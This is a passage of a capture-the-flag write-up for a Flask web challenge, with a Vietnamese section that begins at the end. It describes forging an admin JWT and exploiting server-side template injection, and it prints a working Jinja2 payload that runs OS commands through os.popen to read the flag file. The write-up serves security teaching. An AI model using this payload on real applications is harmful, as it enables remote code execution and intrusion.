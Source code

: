     
3. **Access Admin Panel:** I replaced the `admin_jwt` cookie in my browser with the forged JWT and accessed the `/admin` page.
4. **Confirm SSTI:** I submitted the payload `{{7*7}}` into the template rendering form and received the result `49`, confirming the SSTI vulnerability.
    
   <img width="860" height="425" alt="image" src="https://github.com/user-attachments/assets/25d09fb1-7b47-41c0-9226-ff61e2f01eec" />
   
   <img width="731" height="213" alt="image" src="https://github.com/user-attachments/assets/cd8b8dd3-87ee-49a0-9bcf-be27ccba3fe6" />

    
5. **Escalate to RCE:** I used a more complex SSTI payload to execute OS commands, starting with `ls` to list files.
6. **Read the Flag:** After identifying the flag's location at `secret/flag.txt`, I used a final payload to read its contents.

---

## **5. Final Exploit / Payload**

The final payload submitted to the template rendering form on the `/admin` page:

Code snippet

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secret/flag.txt').read() }}`

**Result:**

`QnQsec{b4efafeb4bd43c404e425ea6d664a0f6}`

---

## **6. Key Takeaways & Lessons Learned**

- **Lesson 1:** Never use default values for secret variables. This is one of the most common and dangerous configuration errors.
- **Lesson 2:** Always treat user input in template rendering functions as untrusted. SSTI vulnerabilities often lead directly to RCE, especially in Python/Flask environments.
- **Lesson 3:** Chaining vulnerabilities (Auth Bypass + SSTI) is a very realistic attack scenario. Patching a single vulnerability may not be sufficient if an attacker can find another path.

---

# TIẾNG VIỆT

## **1. Challenge Summary**

Thử thách yêu cầu chúng ta tấn công một cổng thông tin web được xây dựng bằng Flask. Mục tiêu là truy cập vào khu vực quản trị viên và lấy được cờ (flag). Thử thách cung cấp mã nguồn của ứng dụng, cho thấy ứng dụng sử dụng cơ chế xác thực dựa trên session và JWT, cùng với cơ sở dữ liệu SQLite để lưu trữ người dùng.

---
